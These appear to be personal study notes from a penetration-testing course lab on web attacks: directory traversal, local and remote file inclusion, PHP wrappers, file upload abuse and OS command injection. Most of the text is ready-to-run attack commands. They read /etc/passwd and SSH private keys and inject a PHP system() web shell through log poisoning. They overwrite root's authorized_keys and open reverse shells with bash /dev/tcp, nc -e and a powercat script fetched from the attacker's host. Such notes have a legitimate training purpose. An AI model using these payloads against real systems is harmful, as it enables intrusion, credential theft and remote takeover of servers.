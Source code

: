 ## Directory traversal
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd

http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

*gets the ssh key*

chmod 400 dt_key

ssh -i dt_key -p 2222 offsec@mountaindesserts.com

*note: ssh may have trouble reading the file if saved in vscode, nano fixed it. probably utf-8 thing or line endings*

### golang example for golangexample cve-2021-43798
curl --path-as-is -> will not normalize the path (ie resolve ../ etc)
curl -v --path-as-is "http://192.168.214.193:3000/public/plugins/alertlist/../../../../../../../../../../../Users/install.txt"

### special characters 192.168.214.16
curl http://192.168.214.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords

curl -v --path-as-is "http://192.168.214.16:3000/public/plugins/alertlist/../../../../../../../../../../../opt/install.txt"

../ -> %2e%2e/

can be used to bypass filters by using URL encoding (percent encoding)

### Local File Inclusion LFI
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log

inject php code: <?php echo system($_GET['cmd']); ?>
*using user-agent field into the vulnerable file (access.log above on linux, xampp\apache\logs\access.log windows*

build commands with get request (in burp) GET /meteor/index.php?page=../../../../../../../../xampp/apache/logs/access.log&cmd=type%20hopefullynobodyfindsthisfilebecauseitssupersecret.txt

*&cmd= causes whatever comes after to be executed by the php echo that was injected*

reverse shell

bash -c "bash -i >& /dev/tcp/192.168.x.x/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.x.x%2F4444%200%3E%261%22

listener

nc -nvlp 4444

### php wrappers
php://

data://

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

get base64 encoding of a command

echo -n '<?php echo system($_GET["cmd"]);?>' | base64

PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

**inject command and run cmd= whatever at the end, URL encode the commands ie %20 for space etc**

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"


### remote file inclusion
/usr/share/webshells/php/simple-backdoor.php -> on kali

python3 -m http.server 80 -> start sharing files from our current working directory (so the simple-backdoor.php directory)

**be sure to update target address (url) and our address page=http://<our ip>
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"

**reverse shell**

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### File upload vulnerabilities
### executable files
use in page file uploads to upload files...

curl http://192.168.214.189/meteor/uploads/simple-backdoor.pHP?cmd=dir

curl "http://192.168.214.189/meteor/uploads/simple-backdoor.pHP?cmd=type%20C:\\xampp\\passwords.txt"

curl "http://192.168.214.16/simple-backdoor.pHP?cmd=cat%20/opt/install.txt" 

### non executable files

ssh-keygen

cat fileup.pub > authorized_keys

upload file and intercept with burp, change filename to ../../root/.ssh/authorized_keys

rm ~/.ssh/known_hosts

ssh -p 2222 -i fileup root@192.168.214.16

### command injection
curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive

curl -X POST --data 'Archive=git version' http://192.168.214.189:8000/archive

curl -X POST --data 'Archive=git version%3Bipconfig' http://192.168.214.189:8000/archive

#### find out if is cmd or powershell
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.214.189:8000/archive

python3 -m http.server 80 -> create python web server to deliver powercat

**download on the target from us our reverse shell**
curl -X POST --data 'Archive=git version%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.217%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.217%20-p%204444%20-e%20powershell' http://192.168.214.189:8000/archive

**create remote shell on target to self with nc**

url -X POST --data 'Archive=git version%3bnc%20192.168.45.217%204444%20-e%20%2Fbin%2Fbash' http://192.168.214.16/archive
